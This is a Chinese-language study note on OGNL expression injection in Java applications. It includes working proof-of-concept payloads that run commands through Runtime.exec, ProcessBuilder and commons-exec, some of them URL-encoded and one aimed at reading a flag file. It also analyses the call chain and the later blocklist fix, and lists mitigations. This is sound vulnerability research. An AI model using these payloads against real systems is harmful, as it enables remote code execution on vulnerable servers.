

# ognl表达式注入


## 介绍

OGNL (Object-Graph Navigation Language) 表达式注入是一种安全漏洞，主要影响使用OGNL表达式的Java应用程序，特别是Apache Struts2框架。


## 语法


### 基本对象访问

```
// 访问对象属性
user.name
user.address.city

// 访问Map值
user['name']
map['key']
```


### 方法调用

```
// 调用实例方法
user.getName()
user.setName('test')

// 调用静态方法
@java.lang.Math@max(10, 20)
```


### 静态字段/方法访问


```
// 访问静态字段
@java.lang.Integer@MAX_VALUE

// 调用静态方法
@java.lang.System@currentTimeMillis()
```


## 表达式注入触发根因

应用程序将未经验证的用户输入直接传递给OGNL解析器执行


## ognl表达式注入漏洞关键点

漏洞的触发重点在于`Ognl.getValue`这个方法，是OGNL 表达式解析的核心方法，且有多个重载版本，它主要有以下几个参数：

- **expression**（String）：待执行的OGNL表达式字符串，tree和expression二选一

- **tree** (Object)：预编译的OGNL表达式AST树，通常通过 `Ognl.parseExpression()` 预先解析表达式得到，tree和expression二选一

- **context** (Map)：OGNL上下文环境，存放相关配置，当不指定context时会创建默认上下文，如果指定则可以通过以下OGNL表达式引用：

  - root：`#root`
  - this：`#this`
  - 自定义变量 ：`#val`

  设置时：

  ```
  context.setRoot(rootUser);//this一般不用设置，通常在集合中自动设置
  
  context.put("users", users);//或通过表达式： #var = 10
  context.put("calculate", new MyCalculator());//自定义方法
  ```

  使用时

  ```
  #root.name
  
  #this.name
  users.{ #this.name } 
  ```

- **root** (Object)：操作对象


## 漏洞触发场景

1. 


## 漏洞复现

### 环境

spring boot 3.3 + jdk17 + ognl 2.7.2

### 引入依赖

```
<dependency>
	<groupId>ognl</groupId>
	<artifactId>ognl</artifactId>
	<version>2.7.2</version>
</dependency>
```


### poc

```
@java.lang.Runtime@getRuntime().exec("calc.exe")

new java.lang.ProcessBuilder(new String[]{"calc.exe"}).start()

#cmd=new org.apache.commons.exec.CommandLine("cmd.exe"),
#cmd.addArgument("/c"),
#cmd.addArgument("calc"),
#executor=new org.apache.commons.exec.DefaultExecutor(),
#executor.execute(#cmd)


//报错
#f=#this.getClass().forName('java.lang.Runtime'),
#m=#f.getMethod('getRuntime'),
#rt=#m.invoke(null),
#e=#rt.exec('calc.exe')

#rt=@java.lang.Class@forName('java.lang.Runtime'), 
#m=#rt.getMethod('getRuntime'), 
#runtime=#m.invoke(null), 
#runtime.exec('calc')
//均异常报错：Exception in thread "main" java.lang.ArrayIndexOutOfBoundsException
	at java.lang.System.arraycopy(Native Method)
	at ognl.OgnlRuntime.callAppropriateMethod(OgnlRuntime.java:1224)
	at ognl.ObjectMethodAccessor.callMethod(ObjectMethodAccessor.java:68)
	at ognl.OgnlRuntime.callMethod(OgnlRuntime.java:1329)
	at ognl.ASTMethod.getValueBody(ASTMethod.java:90)
	at ognl.SimpleNode.evaluateGetValueBody(SimpleNode.java:212)
	at ognl.SimpleNode.getValue(SimpleNode.java:258)
	at ognl.ASTChain.getValueBody(ASTChain.java:138)
	at ognl.SimpleNode.evaluateGetValueBody(SimpleNode.java:212)
	at ognl.SimpleNode.getValue(SimpleNode.java:258)
	at ognl.ASTAssign.getValueBody(ASTAssign.java:52)
	at ognl.SimpleNode.evaluateGetValueBody(SimpleNode.java:212)
	at ognl.SimpleNode.getValue(SimpleNode.java:258)
	at ognl.ASTSequence.getValueBody(ASTSequence.java:63)
	at ognl.SimpleNode.evaluateGetValueBody(SimpleNode.java:212)
	at ognl.SimpleNode.getValue(SimpleNode.java:258)
	at ognl.Ognl.getValue(Ognl.java:494)
	at ognl.Ognl.getValue(Ognl.java:644)
	at ognl.Ognl.getValue(Ognl.java:702)
	at ognl.Ognl.getValue(Ognl.java:672)

#cl=#context.getClass().getClassLoader(), 
#oldCl=#cl, 
#cl=(ClassLoader) #cl.loadClass('java.lang.ClassLoader').getMethod('getSystemClassLoader').invoke(null), 
#cl.setContextClassLoader(#oldCl), 
#rt=#cl.loadClass('java.lang.Runtime').getMethod('getRuntime').invoke(null), 
#rt.exec('calc')

```


```
new java.lang.ProcessBuilder(new String[]{"more","/tmp/flag.txt"}).start()

new%20java.lang.ProcessBuilder%28new%20String%5B%5D%7B%22more%22%2C%22%2Ftmp%2Fflag.txt%22%7D%29.start%28%29
```


## OGNL 2.7.2版本分析

以下是最简单的触发RCE的代码：

```java
Map<String, Object> contextMap = new HashMap<>();
        Object value = Ognl.getValue("@java.lang.Runtime@getRuntime().exec(\"calc.exe\")", contextMap);
        System.out.println(value.toString());
```

经过分析，ognl使用`this._children`存放表达式字符串，即`@java.lang.Runtime@getRuntime().exec("calc.exe")`被存储为



整个过程是，通过不停的解析ognl表达式直到通过getAppropriateMethod取到方法exec，然后再调用ognl中提供的invokeMethod从而执行命令，大致的调用链如下：

```
Ognl.getValue(中间还会调用ognl.addDefaultContext，默认不做任何检查)-->ognl.OgnlRuntime.callAppropriateMethod-->ognl.OgnlRuntime.getAppropriateMethod--> ognl.OgnlRuntime.invokeMethod-->java.lang.reflect.Method.invoke
```


## OGNL 3.4.7版本

找了一个最新版本的OGNL进行分析，看看做了什么让OGNL找不到漏洞

<hr>


相比2.7.2版本的OGNL，该版本会直接报错：

```
Exception in thread "main" ognl.MethodFailedException: Method "getRuntime" failed for object class java.lang.Runtime [java.lang.IllegalAccessException: Method [public static java.lang.Runtime java.lang.Runtime.getRuntime()] cannot be called from within OGNL invokeMethod() under stricter invocation mode.]
Caused by: java.lang.IllegalAccessException: Method [public static java.lang.Runtime java.lang.Runtime.getRuntime()] cannot be called from within OGNL invokeMethod() under stricter invocation mode.
```

该版本下在OgnlRuntime中存在一个变量_useStricterInvocation，该值默认是true即做出检查，

在ognl.OgnlRuntime.invokeMethod中，使用以下代码做出了限制：

```java
 if (_useStricterInvocation) {
            Class<?> methodDeclaringClass = method.getDeclaringClass();
            if (AO_SETACCESSIBLE_REF != null && AO_SETACCESSIBLE_REF.equals(method) || AO_SETACCESSIBLE_ARR_REF != null && AO_SETACCESSIBLE_ARR_REF.equals(method) || SYS_EXIT_REF != null && SYS_EXIT_REF.equals(method) || SYS_CONSOLE_REF != null && SYS_CONSOLE_REF.equals(method) || AccessibleObjectHandler.class.isAssignableFrom(methodDeclaringClass) || ClassResolver.class.isAssignableFrom(methodDeclaringClass) || MethodAccessor.class.isAssignableFrom(methodDeclaringClass) || MemberAccess.class.isAssignableFrom(methodDeclaringClass) || OgnlContext.class.isAssignableFrom(methodDeclaringClass) || Runtime.class.isAssignableFrom(methodDeclaringClass) || ClassLoader.class.isAssignableFrom(methodDeclaringClass) || ProcessBuilder.class.isAssignableFrom(methodDeclaringClass) || AccessibleObjectHandlerJDK9Plus.unsafeOrDescendant(methodDeclaringClass)) {
                throw new IllegalAccessException("Method [" + method + "] cannot be called from within OGNL invokeMethod() under stricter invocation mode.");
            }
        }
```

其实就是做了黑名单，其中`Runtime.class.isAssignableFrom(methodDeclaringClass)`限制的就是Runtime

## 修复方案

1. **不要直接执行用户输入的表达式** - 这会导致OGNL注入漏洞
2. **限制访问权限** - 通过设置MemberAccess控制可访问的类和方法
3. **使用安全沙箱** - 考虑使用SecurityManager限制危险操作


## 参考

- [https://xz.aliyun.com/news/9930](https://www.cnblogs.com/hetianlab/p/16502308.html)

- https://chenlvtang.top/2022/08/11/Java%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E4%B9%8BOGNL/